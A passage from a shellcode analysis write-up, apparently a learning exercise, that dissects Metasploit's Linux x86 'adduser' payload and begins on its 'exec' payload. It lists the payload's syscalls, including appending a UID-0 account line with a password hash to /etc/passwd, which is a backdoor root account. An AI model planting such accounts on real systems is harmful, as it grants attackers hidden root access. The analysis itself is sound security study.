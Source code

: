 <pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 16px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;"><strong>#include &lt;stdlib.h&gt;

void exit(int <i>status</i>);</strong></pre>
<p style="text-align:justify;">The <strong>exit(3)</strong> syscall does not return any value but it takes only one argument, the status. As we know from previous analysis, the <strong>ebx</strong> register holds the value <strong>0x3</strong> that will be used as an argument on the <strong>exit</strong> system call which refers at&nbsp;the status of the exit process. When a program exits, it can return to the parent process a small amount of information about the cause of termination, using the exit status. This is a value between 0 and 255 that the exiting process passes as an argument to <strong>exit </strong>system call.</p>
<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 16px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">push byte +0x1  <strong><span style="color:#33cccc;">; push 0x1 on the stack</span> </strong>
pop eax         <strong><span style="color:#33cccc;">; load exit syscall identifier 0x1 into eax</span></strong>
int 0x80        <strong><span style="color:#33cccc;">; execute exit syscall</span></strong></pre>
<p style="text-align:justify;">The software interrupt is then performed by the <strong>int 0x80</strong> instruction where used to call the <strong>exit</strong> system call in order to terminate the program.</p>
<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 16px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;"><strong>exit(3)</strong></pre>
<p style="text-align:justify;">To summarise, from the <strong>adduser</strong> shellcode analysis the following system calls are used</p>
<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 16px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;"><strong>setreuid(0, 0)
open(/etc//passwd, O_WRONLY|O_APPEND)
write(3, metasploit:Az/dIsj4p4IRc:0:0::/:/bin/sh, 40)
exit(3)</strong></pre>
<h3>&nbsp;</h3>
<h2><span style="color:#339966;">2nd Shellcode analysis - exec</span></h2>
<p style="text-align:justify;">At this section the <strong>exec</strong> shellcode will be analysed. Before we continue the analysis of the payload we will check the information provided from <strong>msfconsole.&nbsp;</strong></p>
<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 16px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">msf5 &gt; use payload/linux/x86/exec
msf5 payload(linux/x86/exec) &gt; info

Name: Linux Execute Command
Module: payload/linux/x86/exec
Platform: Linux
Arch: x86
Needs Admin: No
Total size: 36
Rank: Normal
